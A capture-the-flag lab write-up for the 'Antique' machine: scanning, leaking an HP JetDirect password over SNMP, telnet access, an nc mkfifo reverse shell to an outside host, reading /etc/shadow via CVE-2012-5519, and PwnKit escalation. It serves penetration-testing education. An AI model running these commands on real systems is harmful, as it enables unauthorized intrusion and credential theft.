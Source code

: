 ```yaml
---
title: Antique
published: true
layout: post
---
```


<br />

---------------
Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/j4GtGBayHNo?si=1rNCGisJUXNyZgNZ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Antique/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **23/tcp**
+ **161/udp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Antique/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **23/tcp telnet**
+ **161/udp SNMPv1 server (public)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine is... weird. I'm used to exploting websites and then connecting via SSH. However this machine has neither of both. We are facing a Telnet server and an SNMP server. Anyway, this machine is not hard, we just have to do our research.

<br />

When trying to connect to **Telnet**, we are **asked for a password** but also we can see a banner that indicates us something about an ***HP JetDirect***:

```bash
telnet 10.10.11.107
```

![](/assets/Antique/3.png)
<br />
<br />
<br />

When trying to connect to **SNMP** using the ***public* community string**, we get this string:

```bash
snmpwalk -c "public" -v1 -t 10 10.10.11.107
```

![](/assets/Antique/4.png)
<br />
<br />
<br />

With this information I was completely lost, so I started to **search in Google** for this printer, the telnet and SNMP services. Until I found this website:

![](/assets/Antique/5.png)
<br />
<br />
<br />

In this website, we can find this section, which explains the way to get the **JetDirect's password**:

![](/assets/Antique/6.png)
<br />
<br />
<br />

Let's try it:

```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

![](/assets/Antique/7.png)
<br />
<br />
<br />

Great, let's now **copy the output and translate it from hexademical**, from which we can see a long string, however the first readable part is: ***P@ssw0rd@123!!123***:

![](/assets/Antique/8.png)
<br />
<br />
<br />

Let's try this password in Telnet:
<br />
![](/assets/Antique/9.png)
<br />
<br />
<br />

We can see that we have a **command to execute system commands**, so we can send us a **reverse shell**. I tried a few and only the ***nc mkfifo*** one worked:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 4444 >/tmp/f
```

![](/assets/Antique/10.png)

![](/assets/Antique/11.png)
<br />
<br />
<br />

Now we only need to grab the **user flag**:
<br />
![](/assets/Antique/12.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation of this machine **isn't intended to get command execution as root**, however I will still demonstrate how to get it.

<br />

After a bit of enumeration I discover that the **port 631/tcp** is open, so I'm going to download and use [**Chisel**](https://github.com/jpillora/chisel/releases/tag/v1.10.0) to set up local port forwarding, first we have to execute it on our machine:

```bash
chisel server --port 8080 --reverse
```

![](/assets/Antique/13.png)
<br />
<br />
<br />

Now we have to execute it on the pwned machine:

```bash
./chisel client 10.10.16.10:8080 1234:127.0.0.1:631 > /dev/null 2>&1 
```

![](/assets/Antique/14.png)
<br />
<br />
<br />

We can now connect to it and inspect it to get a **version number**:

![](/assets/Antique/15.png)
<br />
<br />
<br />

This version number leads us to **CVE-2012-5519**, which leads to this [GitHub project](https://github.com/p1ckzi/CVE-2012-5519/tree/main):

![](/assets/Antique/16.png)
<br />
<br />
<br />

Let's try what it says in the pwned machine:

```bash
cupsctl ErrorLog=/etc/shadow
curl 127.0.0.1:631/admin/log/error_log
```

![](/assets/Antique/17.png)
<br />
<br />
<br />

It worked perfectly, however **rockyou.txt doesn't contain the password**, we could get the root flag this way, but we want root command execution, so let's go for it.

<br />

Resuming our enumeration, we can see that ***pkexec*** has **SUID privileges**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![](/assets/Antique/18.png)
<br />
<br />
<br />

The only thing we have to do is transfer the **PwnKit** and run it:

![](/assets/Antique/19.png)
<br />
<br />
<br />
